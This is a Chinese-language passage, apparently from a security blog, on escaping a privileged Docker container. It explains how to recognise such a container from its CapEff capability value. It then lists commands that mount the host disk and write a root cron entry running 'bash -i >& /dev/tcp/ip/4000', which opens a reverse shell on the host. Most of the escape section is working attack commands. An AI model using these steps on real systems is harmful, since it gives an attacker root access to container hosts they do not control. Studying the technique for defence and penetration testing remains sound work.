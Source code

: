 CapEff 主要是检查线程的执行权限，所以重点看下利用 `capsh --decode=0000003fffffffff` 进行解码，检索默认没有添加的 NET\_ADMIN，发现存在

[![](assets/1708095739-3bafe5826f304c7b089a5bc5e80d27a5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230428211332-79e01266-e5c6-1.png)  
而非特权容器的 Cap 集合值并进行解码，发现并不存在 NET\_ADMIN

因此当执行 `cat /proc/1/status | grep Cap` 查询对应出来的值为 `0000003fffffffff` 那么就有可能是特权容器，可尝试逃逸

### 逃逸

1、首先以特权模式运行一个 docker 容器

```plain
docker run -it --privileged 镜像 id /bin/bash
```

2、查看磁盘文件

```plain
fdisk -l
```

[![](assets/1708095739-f604610c55e69247a2960b2601c4a737.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230428211343-80258066-e5c6-1.png)  
3、新建一个目录，将/dev/vda1 挂载至新建的目录

```plain
mkdir /test
mount /dev/vda1 /test
```

4、写入计划任务到宿主机

```plain
echo '* * * * * bash -i >& /dev/tcp/ip/4000 0>&1' >> /test/var/spool/cron/root
```

5、成功反弹 shell

[![](assets/1708095739-f6986064f826f7f0ab63abe70a988728.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230428211403-8bf935ae-e5c6-1.png)
